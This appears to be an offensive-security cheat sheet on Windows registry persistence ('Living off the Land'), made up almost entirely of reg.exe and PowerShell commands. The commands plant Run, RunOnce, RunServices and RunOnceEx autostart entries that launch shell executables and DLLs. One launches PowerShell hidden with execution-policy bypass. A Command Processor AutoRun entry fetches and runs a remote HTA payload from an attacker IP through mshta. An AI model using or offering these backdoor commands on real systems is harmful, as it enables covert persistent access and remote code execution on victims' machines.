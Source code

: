 # Living off the Land

## 01 - Registry Backdoors

### 1.1 - HKLM

#### 1.1.1 - Add Registry Key Syntax

- Command Prompt

```
C\> reg.exe import file.reg

C:\> reg.exe add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v <value> /t reg_sz /d "rundll32.exe C:\path\to\shell.dll,ExecDLL" /f
```

- PowerShell

```powershell
PS C:\> Set-ItemProperty -Force -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "<value>" -Type String -Value "C:\path\to\shell.exe"
```

#### 1.1.2 - Delete Registry Key Syntax

```
C:\> reg.exe del [\\<IP>\]hklm\\software\\microsoft\\currentversion\\run /v <value> /f
```

### HKLM

```
C:\> reg.exe add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v Autorun /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg.exe add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce /v UpdateOnce /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg.exe add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices /v WindowsService /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg.exe add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServicesOnce /v UpdateSVC /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg.exe add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001 /v Autorun /t REG_SZ /d "C:\path\to\shell.exe"

C:\> reg.exe add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend /v Dependency /t REG_SZ /d "C:\path\to\shell.dll"
```

### HKCU

```
C:\> reg.exe add [\\<IP>\]HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Image /t REG_SZ /d "C:\path\to\shell.exe" /f

C:\> reg.exe add [\\<IP>\]HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Image /t REG_SZ /d "powershell.exe -ep bypass -w hidden -nologo -NonI -f C:\path\to\shell.ps1" /f

C:\> reg.exe add [\\<IP>\]HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce /v WindowsUpdate /t REG_SZ /d "rundll32.exe C:\path\to\shell.dll,ExecuteShell" /f

C:\> reg.exe add [\\<IP>\]HKCU\Software\Microsoft\Windows\CurrentVersion\RunServices /v Image /t REG_SZ /d "C:\path\to\shell.exe" /f

C:\> reg.exe add [\\<IP>\]HKCU\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce /v Image /t REG_SZ /d "C:\path\to\shell.exe" /f

C:\> reg.exe add "[\\<IP>\]HKCU\SOFTWARE\Microsoft\Command Processor" /v AutoRun /t REG_SZ /d "powershell.exe Start-Process -windowstyle hidden -FilePath mshta.exe http://<IP>/shell.hta" /f
```

---
## References

### Backlinks

- [[Windows Post Exploitation Persistence References]]

### LOFLCAB

- [LOFLCAB: reg](https://lofl-project.github.io/loflcab/Binaries/reg/)